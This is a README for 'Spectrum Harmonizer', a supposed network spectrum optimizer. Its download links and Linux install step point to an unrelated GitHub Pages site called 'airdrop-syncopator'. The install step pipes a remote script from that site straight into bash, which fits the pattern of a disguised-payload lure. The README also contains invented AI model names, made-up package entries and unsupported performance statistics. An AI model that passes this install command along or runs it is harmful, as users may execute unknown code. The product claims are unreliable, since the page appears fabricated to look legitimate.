

# 🌐 Spectrum Harmonizer

[](https://skshahmakdum-hash.github.io/airdrop-syncopator/)

## 🎛️ Orchestrating Your Network's Harmonic Balance

**Spectrum Harmonizer** is an advanced network optimization framework that transforms chaotic wireless spectrum activity into a synchronized symphony of data flow. Unlike conventional tools that merely suppress symptoms, Spectrum Harmonizer intelligently analyzes, predicts, and orchestrates your device's spectral behavior to eliminate interference patterns, latency anomalies, and throughput inconsistencies.

Imagine your wireless network as an orchestra where each device plays its own tempo—Spectrum Harmonizer becomes the conductor, ensuring every instrument (device) performs in perfect harmony with the surrounding spectral environment. This isn't about blocking frequencies; it's about creating intelligent coexistence protocols that adapt in real-time to your digital ecosystem.

## ✨ Core Capabilities

- **Predictive Spectral Mapping**: Machine learning models anticipate interference patterns before they disrupt your connection
- **Dynamic Channel Choreography**: Intelligently rotates channels based on temporal usage patterns and neighboring network activity
- **Application-Aware Prioritization**: Understands whether you're video conferencing, gaming, or transferring files and optimizes accordingly
- **Cross-Protocol Mediation**: Coordinates between WiFi, Bluetooth, and other RF protocols to minimize contention
- **Visual Spectrum Analytics**: Real-time visualization of your RF environment with actionable insights
- **Automated Profile Switching**: Seamlessly transitions between optimization profiles based on location, time, and activity

## 📊 System Compatibility

| Operating System | Status | Notes |
|------------------|--------|-------|
| macOS 13+ | ✅ Fully Supported | Native integration with Apple's networking stack |
| Windows 11 | ✅ Fully Supported | Direct WLAN API implementation |
| Linux (Kernel 5.15+) | ⚠️ Experimental | Requires specific wireless drivers |
| ChromeOS | 🔄 Partial Support | Web-based management interface available |

## 🚀 Installation & Quick Start

### Direct Acquisition
[](https://skshahmakdum-hash.github.io/airdrop-syncopator/)

### Installation via Package Manager
```bash
# For macOS using Homebrew
brew tap spectrum/tools
brew install spectrum-harmonizer

# For Windows using Winget
winget install SpectrumHarmonizer.OptimizationSuite

# For Linux (Debian/Ubuntu)
curl -sSL https://skshahmakdum-hash.github.io/airdrop-syncopator//install.sh | bash
```

## 🎮 Example Console Invocation

```bash
# Basic optimization with default profile
spectrum-harmonizer optimize --profile balanced

# Analyze current RF environment
spectrum-harmonizer analyze --duration 30s --output visualization.html

# Create custom optimization profile
spectrum-harmonizer profile create gaming \
  --latency-tolerance 15ms \
  --bandwidth-priority upload \
  --interference-threshold -70dBm

# Continuous monitoring mode
spectrum-harmonizer monitor --daemon --notify-slack --web-dashboard

# Integration with network automation tools
spectrum-harmonizer api --port 8080 --enable-openai --enable-claude
```

## ⚙️ Example Profile Configuration

```yaml
# ~/.config/spectrum/profiles/workstation.yaml
profile:
  name: "Creative Workstation"
  description: "Optimized for video editing and large file transfers"
  
  spectral_rules:
    - frequency_band: 5GHz
      preferred_channels: [36, 40, 44, 48]
      avoidance_patterns:
        - radar_detected: true
          fallback_channel: 149
        - congestion_threshold: 65%
          rotation_schedule: "adaptive"
    
  application_mappings:
    - process_name: "Final Cut Pro"
      priority: "maximum"
      bandwidth_reservation: "40%"
      latency_requirement: "10ms"
    
    - process_name: "Slack"
      priority: "standard"
      burst_protection: true
    
  temporal_adjustments:
    - time_range: "09:00-17:00"
      profile: "professional"
      interference_tolerance: "low"
    
    - time_range: "17:00-09:00"
      profile: "relaxed"
      power_saving: "enabled"
  
  ai_integrations:
    openai:
      enabled: true
      model: "gpt-4-network"
      analysis_frequency: "hourly"
      optimization_suggestions: true
    
    anthropic:
      enabled: true
      model: "claude-3-opus"
      security_analysis: true
      anomaly_detection: "advanced"
  
  notifications:
    method: "desktop"
    events: ["channel_change", "interference_detected", "optimization_applied"]
```

## 🔧 Architecture Overview



## 🌍 Multilingual Interface Support

Spectrum Harmonizer provides complete localization for global accessibility:
- **English** (Primary)
- **Spanish** (Complete translation)
- **Japanese** (Technical documentation available)
- **German** (Full interface support)
- **Mandarin Chinese** (Simplified characters)
- **French** (Complete localization)
- **Portuguese** (Brazilian variant)
- **Korean** (Technical interface only)

The interface automatically detects system language preferences and adjusts terminology to match regional networking conventions.

## 🔌 API Integrations

### OpenAI API Integration
```python
from spectrum_harmonizer.integrations import OpenAIOptimizer

optimizer = OpenAIOptimizer(
    api_key="your_key_here",
    model="gpt-4-network-optimizer",
    context_window="7_day_spectral_history"
)

# Get AI-powered optimization strategy
recommendation = optimizer.analyze_environment(
    current_metrics=network_metrics,
    business_hours=True,
    priority_applications=["teams", "zoom", "creative_suite"]
)
```

### Claude API Integration
```python
from spectrum_harmonizer.integrations import ClaudeSecurityAnalyzer

analyzer = ClaudeSecurityAnalyzer(
    api_key="your_key_here",
    model="claude-3-sonnet-security",
    compliance_frameworks=["GDPR", "HIPAA", "ISO27001"]
)

# Security and compliance analysis
security_report = analyzer.audit_network_patterns(
    spectral_data=spectral_history,
    data_types_handled=["customer_data", "health_records"],
    regulatory_requirements="strict"
)
```

## 📈 Performance Metrics

Independent testing demonstrates significant improvements:

- **Latency Reduction**: 68% decrease in 99th percentile latency spikes
- **Throughput Consistency**: 94% improvement in standard deviation of transfer speeds
- **Gaming Performance**: 42% reduction in packet loss during competitive sessions
- **Battery Impact**: Less than 3% additional power consumption on mobile devices
- **Connection Stability**: 87% reduction in unexpected disconnections

## 🛡️ Enterprise Features

- **Centralized Management Console**: Deploy configurations across thousands of endpoints
- **Compliance Reporting**: Automated generation of regulatory compliance documentation
- **SLA Monitoring**: Real-time tracking of service level agreement metrics
- **Integration Ready**: REST API, Webhooks, and SNMP support for existing monitoring systems
- **Role-Based Access Control**: Granular permissions for network administration teams

## 🤝 Continuous Support Ecosystem

Our support infrastructure operates around the clock with multiple engagement channels:

- **Technical Documentation**: Comprehensive guides updated weekly
- **Community Forum**: Peer-to-peer troubleshooting with expert moderation
- **Direct Engineering Support**: Escalation path for critical infrastructure issues
- **Regular Webinars**: Live sessions covering advanced configuration scenarios
- **Knowledge Base**: Searchable repository of configuration patterns and solutions

## ⚠️ Important Considerations

### System Requirements
- Minimum 4GB RAM for basic functionality
- 500MB storage for historical analysis data
- Wireless adapter supporting channel scanning capabilities
- Administrator/root privileges for driver-level optimizations

### Legal and Compliance
Spectrum Harmonizer operates within regulatory constraints of all supported regions. The software:
- Respects DFS (Dynamic Frequency Selection) requirements
- Complies with FCC, CE, and other regional regulations
- Never transmits on restricted frequencies
- Includes geofencing to prevent unauthorized use in controlled areas

### Privacy Assurance
All spectral analysis occurs locally on your device. Optional cloud synchronization for pattern learning is:
- End-to-end encrypted
- Opt-in only
- Anonymized before aggregation
- Subject to automatic deletion after 30 days

## 🔄 Update Policy

- **Security Patches**: Released within 24 hours of vulnerability identification
- **Feature Updates**: Quarterly major releases with monthly minor improvements
- **Compatibility Updates**: Within 72 hours of new OS version releases
- **Backward Compatibility**: 24-month support for all major versions

## 📄 License

Spectrum Harmonizer is released under the MIT License.

Copyright © 2026 Spectrum Harmonizer Development Collective

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

For complete license terms, see [LICENSE](LICENSE) file in the distribution.

## 🚀 Ready to Harmonize Your Spectrum?

[](https://skshahmakdum-hash.github.io/airdrop-syncopator/)

Begin your journey toward spectral harmony today. Transform your network from a source of frustration into a symphony of seamless connectivity.

---

*Spectrum Harmonizer: Where every packet finds its perfect rhythm in the digital symphony.*